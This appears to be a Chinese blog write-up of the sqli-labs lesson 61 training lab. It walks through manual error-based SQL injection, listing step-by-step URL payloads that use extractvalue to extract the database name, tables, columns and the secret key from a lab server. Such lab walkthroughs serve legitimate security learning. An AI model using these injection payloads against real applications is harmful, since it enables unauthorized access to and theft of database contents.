 ```yaml
---
title: sqli-labs lession-61 GET-双注入-变化4-仅允许5次请求
date: 2018-11-29 11:46:49
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-61 GET-双注入-变化4-仅允许5次请求

------

## 手注

对常见的`'))`进行测试

`http://10.60.17.35:8082/Less-61/?id=1'`

发现报错

![001](/img/sql/Lesson-61/001.png)

最终测试出闭合`'))`

`http://10.60.17.35:8082/Less-61/?id=1'))+and+extractvalue(null,concat(0x7e,database(),0x7e))%23`

![002](/img/sql/Lesson-61/002.png)

`http://10.60.17.35:8082/Less-61/?id=1'))+and+extractvalue(null,concat(0x7e,(select+group_concat(table_name)from+information_schema.TABLES+WHERE+TABLE_schema='challenges'),0x7e))%23`

![003](/img/sql/Lesson-61/003.png)

`http://10.60.17.35:8082/Less-61/?id=1'))+and+extractvalue(null,concat(0x7e,(select+group_concat(column_name)from+information_schema.columns+WHERE+TABLE_schema='challenges'+and+table_name='l38s5fjaki'),0x7e))%23`

![004](/img/sql/Lesson-61/004.png)

`http://10.60.17.35:8082/Less-61/?id=1'))+and+extractvalue(null,concat(0x7e,(select+GROUP_CONCAT(secret_Y1R9)from challenges.l38s5fjaki),0x7e))%23`

![005](/img/sql/Lesson-61/005.png)

提交

![006](/img/sql/Lesson-61/006.png)

